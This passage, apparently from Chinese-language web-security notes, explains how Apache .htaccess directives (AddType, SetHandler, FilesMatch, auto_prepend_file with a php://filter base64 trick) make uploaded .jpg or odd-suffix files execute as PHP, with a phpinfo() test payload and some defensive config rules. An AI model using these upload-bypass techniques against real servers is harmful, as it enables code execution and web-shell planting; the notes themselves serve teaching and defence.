 1.  使用相对路径
    
    > 无法使用绝对路径是可以利用一下
    

在 handler 模式下

```
1. 配置文件中在对应目录下 如: /var/www/html添加  AllowOverride All

windows下Apache要加载mod_Rewrite模块，配置文件上写上：LoadModule rewrite_module /usr/lib/apache2/modules/mod_rewrite.so

重启apache
```

```
1. AddType application/x-httpd-php .xxx 
   AddHandler application/x-httpd-php .xxx    将xxx后缀作为php解析

2. SetHandler application/x-httpd-php 将该目录下所有文件及其子文件中的文件当做php解析
3.  
  <FilesMatch ".+\.jpg">
    SetHandler application/x-httpd-php
  </FilesMatch>
该语句会让Apache把.jpg文件解析为php文件。
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201216100319-de07a52e-3f42-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201216100319-de07a52e-3f42-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201216100319-de24cf3c-3f42-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201216100319-de24cf3c-3f42-1.png)

*   防御方法
    
    修改匹配规则
    
    ```
    <FileMatch ".+\.php$">
    SetHandler application/x-httpd-php
    </FileMatch>
    
    
    ```
    
    禁止. php. 这样的文件执行
    
    ```
    <FileMatch ".+\.ph(p[3457]?|t|tml)\.">
    Require all denied
    </FileMatch>
    
    
    ```
    

`.htaccess包含文件`

```
php_value auto_prepend_file "test.jpg" 文件开始插入
php_value auto_append_file "test.jpg"  文件结束插入

利用伪协议 
php_value auto_prepend_file php://filter/convert.base64-decode/resource=test.jpg

test.jpg  
<?php phpinfo();?>

```

